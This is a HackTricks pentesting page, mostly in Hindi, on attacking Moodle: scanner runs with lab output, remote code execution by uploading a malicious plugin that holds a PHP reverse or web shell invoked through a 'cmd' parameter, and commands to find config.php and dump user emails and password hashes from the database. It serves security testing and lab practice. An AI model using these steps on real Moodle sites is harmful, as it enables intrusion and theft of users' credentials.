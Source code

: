 # Moodle

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Bug bounty tip**: **साइन अप करें** **Intigriti** के लिए, एक प्रीमियम **बग बाउंटी प्लेटफॉर्म जो हैकर्स द्वारा, हैकर्स के लिए बनाया गया है**! आज ही हमारे साथ जुड़ें [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) पर, और **$100,000** तक के बाउंटी कमाना शुरू करें!

{% embed url="https://go.intigriti.com/hacktricks" %}

## Automatic Scans

### droopescan
```bash
pip3 install droopescan
droopescan scan moodle -u http://moodle.example.com/<moodle_path>/

[+] Plugins found:
forum http://moodle.schooled.htb/moodle/mod/forum/
http://moodle.schooled.htb/moodle/mod/forum/upgrade.txt
http://moodle.schooled.htb/moodle/mod/forum/version.php

[+] No themes found.

[+] Possible version(s):
3.10.0-beta

[+] Possible interesting urls found:
Static readme file. - http://moodle.schooled.htb/moodle/README.txt
Admin panel - http://moodle.schooled.htb/moodle/login/

[+] Scan finished (0:00:05.643539 elapsed)
```
### moodlescan
```bash
#Install from https://github.com/inc0d3/moodlescan
python3 moodlescan.py -k -u http://moodle.example.com/<moodle_path>/

Version 0.7 - Dic/2020
.............................................................................................................

By Victor Herrera - supported by www.incode.cl

.............................................................................................................

Getting server information http://moodle.schooled.htb/moodle/ ...

server         	: Apache/2.4.46 (FreeBSD) PHP/7.4.15
x-powered-by   	: PHP/7.4.15
x-frame-options	: sameorigin
last-modified  	: Wed, 07 Apr 2021 21:33:41 GMT

Getting moodle version...

Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...


Vulnerabilities found: 0

Scan completed.
```
### CMSMap
```bash
pip3 install git+https://github.com/dionach/CMSmap.git
cmsmap http://moodle.example.com/<moodle_path>
```
### CVEs

मैंने पाया कि स्वचालित उपकरण **moodle संस्करण को प्रभावित करने वाली कमजोरियों को खोजने में काफी बेकार हैं**। आप **इनकी जांच** [**https://snyk.io/vuln/composer:moodle%2Fmoodle**](https://snyk.io/vuln/composer:moodle%2Fmoodle) पर कर सकते हैं।

## **RCE**

आपको **प्रबंधक** भूमिका होनी चाहिए और आप **"Site administration"** टैब के अंदर **प्लगइन्स स्थापित कर सकते हैं**\*\*:\*\*

![](<../../.gitbook/assets/image (630).png>)

यदि आप प्रबंधक हैं, तो आपको **इस विकल्प को सक्रिय करने** की आवश्यकता हो सकती है। आप देख सकते हैं कि moodle विशेषाधिकार वृद्धि PoC में कैसे है: [https://github.com/HoangKien1020/CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321)।

फिर, आप **निम्नलिखित प्लगइन स्थापित कर सकते हैं** जिसमें क्लासिक pentest-monkey php r**ev shell** है (_इसे अपलोड करने से पहले आपको इसे अनजिप करना होगा, revshell का IP और पोर्ट बदलना होगा और फिर से संकुचित करना होगा_)

{% file src="../../.gitbook/assets/moodle-rce-plugin.zip" %}

या आप [https://github.com/HoangKien1020/Moodle\_RCE](https://github.com/HoangKien1020/Moodle\_RCE) से प्लगइन का उपयोग कर सकते हैं ताकि "cmd" पैरामीटर के साथ एक नियमित PHP शेल प्राप्त कर सकें।

दुष्ट प्लगइन को लॉन्च करने के लिए आपको इस पर पहुंचने की आवश्यकता है:
```bash
http://domain.com/<moodle_path>/blocks/rce/lang/en/block_rce.php?cmd=id
```
## POST

### डेटाबेस क्रेडेंशियल्स खोजें
```bash
find / -name "config.php" 2>/dev/null | grep "moodle/config.php"
```
### डेटाबेस से क्रेडेंशियल्स डंप करें
```bash
/usr/local/bin/mysql -u <username> --password=<password> -e "use moodle; select email,username,password from mdl_user; exit"
```
<figure><img src="../../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**बग बाउंटी टिप**: **साइन अप करें** **Intigriti** के लिए, एक प्रीमियम **बग बाउंटी प्लेटफॉर्म जो हैकर्स द्वारा, हैकर्स के लिए बनाया गया है**! आज ही [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) पर हमारे साथ जुड़ें, और **$100,000** तक बाउंटी कमाना शुरू करें!

{% embed url="https://go.intigriti.com/hacktricks" %}
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें PRs को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में सबमिट करके।

</details>
{% endhint %}
</details>
{% endhint %}
